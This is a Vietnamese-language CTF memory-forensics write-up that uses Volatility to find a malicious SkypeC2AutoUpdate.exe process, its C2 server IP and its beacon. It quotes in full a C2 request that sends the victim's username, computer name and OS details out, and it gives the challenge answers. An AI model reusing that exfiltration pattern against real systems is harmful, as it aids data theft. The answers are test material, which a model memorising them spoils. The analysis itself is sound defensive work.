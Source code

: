 ##### Tiếp tục sử dụng plugin malfind thì process SkypeC2AutoUpdate.exe khá là đáng ngờ, bởi vì đây không phải tệp thực thi mặc định của hệ thống. 
![image](https://hackmd.io/_uploads/rymh9ywKyx.png)
##### Tìm kiếm trên internet ta cũng sẽ dễ dàng tìm thấy các báo cáo về nó như trang [otx.alienvault.com]( https://otx.alienvault.com/indicator/file/0817aaf13a68541c733c929583113da2c7d021376ecb5b0ae705ca6c7c0e3d83)

> Vì vậy PID sẽ là 1364

#### 2. What is the C2 server IP address?
##### Với câu hỏi này, ta sử dụng plugin netscan để xem các kết nối của chúng tới C2 server
![image](https://hackmd.io/_uploads/HJ87ylwYyl.png)

> 54.174.131.235

#### 3. What is the Teamviewer version abused by the malicious file?
##### Dựa vào báo cáo đã tìm thấy phía trên, ta thấy rằng có 1 vài http request sẽ được gửi đến máy chủ C2 với path là `/getinfo.php`
![image](https://hackmd.io/_uploads/B18lIIsK1l.png)
##### Vì máy chủ C2 trong challenge có ip là 54.174.131.235 cho nên uri sẽ là `54.174.131.235/getinfo.php`
##### Dựa vào thông tin này ta tiến hành tìm trong file memory của nạn nhân
![image](https://hackmd.io/_uploads/BkHSDLjFke.png)
##### Ta tiến hành phân tích url đáng ngờ được kết nối đến 
```
http://54.174.131.235/getinfo.php?id=528812561&stat=1&tout=10&osbt=2&osv=6.1&osbd=7600&ossp=0.0&ulv=2&elv=0&rad=0&agp=1&devicea=0&devicev=0&uname=phillip.price&cname=WIN-191HVE3KTLO&vpn=0&tvrv=0.2.2.2
```
##### Endpoint: /getinfo.php → Gợi ý máy chủ đang thu thập thông tin từ client.
| Tham số  | Giá trị            | Ý nghĩa khả nghi                                   |
|----------|--------------------|----------------------------------------------------|
| `id`     | `528812561`        | Có thể là ID của máy bị nhiễm                     |
| `osv`    | `6.1`              | Windows 7                                         |
| `osbd`   | `7600`             | Windows 7 RTM (chưa có Service Pack)              |
| `ossp`   | `0.0`              | Không có Service Pack                             |
| `uname`  | `phillip.price`    | Tên người dùng hệ thống                          |
| `cname`  | `WIN-191HVE3KTLO`  | Tên máy tính                                      |
| `vpn`    | `0`                | Không sử dụng VPN                                |
| `tvrv`   | `0.2.2.2`          | Có thể là phiên bản phần mềm độc hại             |
> Phiên bản là 0.2.2.2
#### 4. What password did the malicious file use to enable remote access to the system?
##### Với câu hỏi này mình sử dụng plugin editbox
```
EditBox là một thành phần giao diện đồ họa (GUI) của Windows, thuộc nhóm Windows Controls. Nó là một hộp nhập liệu (text box) cho phép người dùng nhập và chỉnh sửa văn bản.
```